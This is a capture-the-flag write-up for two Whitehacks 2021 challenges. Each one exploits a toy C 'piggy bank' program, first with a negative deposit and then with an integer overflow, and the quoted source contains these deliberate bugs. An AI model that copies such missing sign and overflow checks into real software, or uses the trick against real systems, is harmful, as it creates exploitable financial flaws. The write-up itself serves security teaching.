 # Piggy_Bank

## Description

CTF: Whitehacks 2021

Time to save your angbao money! $_$

nc chals.whitehacks.ctf.sg 20101

Solve this challenge to unlock Piggy_Bank_Revenge!

<br />
<a href="/files/whitehacks-2021/piggy" download>
  piggy
</a>
<a href="/files/whitehacks-2021/piggy.c" download>
  piggy.c
</a>

## Solution

_Solved by [@teamfreestuff](https://github.com/teamfreestuff)_

After connecting to the shell, we are greeted with the following screen:

```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
```

When we attempt to buy the flag, it prints:

```
[-] Error: You cannot buy the flag. Come back when you have $31337.00
```

At this point, we should look at the nicely attached source code and search for
vulnerabilities.

```cpp
void deposit(){
	int amount;
	printf("How much would you like to DEPOSIT?\n");
	printf("> $");
	scanf("%d", &amount);
	// Check if wallet contains enough
	if(amount * 100 < user_cents){
		// Make deposit if valid value
		user_cents  -= amount * 100;
		piggy_cents += amount * 100;
	}
	else{
		// Insufficient funds in wallet
		printf("[-] Error: You do not have sufficient funds to DEPOSIT\n");
	}
}

void flag(){
	// Buy flag for $31337.00
	if(user_cents > 3133700){
		user_cents -= 31337000;
		system("cat flag");
		exit(0);
	}
	else{
		printf("[-] Error: You cannot buy the flag. Come back when you have $31337.00\n");
	}
}
```

Notice that `deposit()` does not check for negative values. If we attempt to
deposit a negative value, we are able to satisfy `user_cents > 3133700` in
`flag()`.

```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
$-100000

Piggy Bank value: $-98663.00
Wallet value:     $100100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
```

Now, we can buy the flag.

`WH2021{N0w_the_p1ggy_is_wORS3_than_empty_:'(}`

# Piggy_Bank_Revenge

Seems there was an issue with the previous implementation. I've introduced a
HOTFIX that should prevent any further vulnerabilities. I've achieved an
unhackable piggy bank now for sure.

> nc chals.whitehacks.ctf.sg 20201
>
> This will require a bit more knowledge about programming than Piggy Bank. Give
> it a try and learn something new(?)"

If we compare the source code, we notice that they added a check for negative
values for both `deposit()` and `withdraw()` functions.

```diff
void deposit(){
	int amount;
	printf("How much would you like to DEPOSIT?\n");
	printf("> $");
	scanf("%d", &amount);
+	// HOTFIX
+	if(amount < 0){
+		printf("[-] Error: No negative values!\n");
+		return;
+	}
	// Check if wallet contains enough
	if(amount * 100 < user_cents){
		// Make deposit if valid value
		user_cents  -= amount * 100;
		piggy_cents += amount * 100;
	}
	else{
		// Insufficient funds in wallet
		printf("[-] Error: You do not have sufficient funds to DEPOSIT\n");
	}
}
```

However, we can still take advantage of
[integer overflow](https://en.wikipedia.org/wiki/Integer_overflow) in C to
create a negative integer using a very large positive integer. This works as
integers are stored as their
[two's complement](https://en.wikipedia.org/wiki/Two%27s_complement) in binary
under the hood.

```
Piggy Bank value: $1337.00
Wallet value:     $100.00

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice: 1

How much would you like to DEPOSIT?
$200000000

Piggy Bank value: $-14747027.-80
Wallet value:     $14748464.80

1) Deposit INTO Piggy
2) Withdraw FROM Piggy
3) Buy flag
4) Exit

Your choice:
```

Now, we can buy the flag.

`WH2021{(Don't)Try_th1s_0n_youR_B4nk!}`
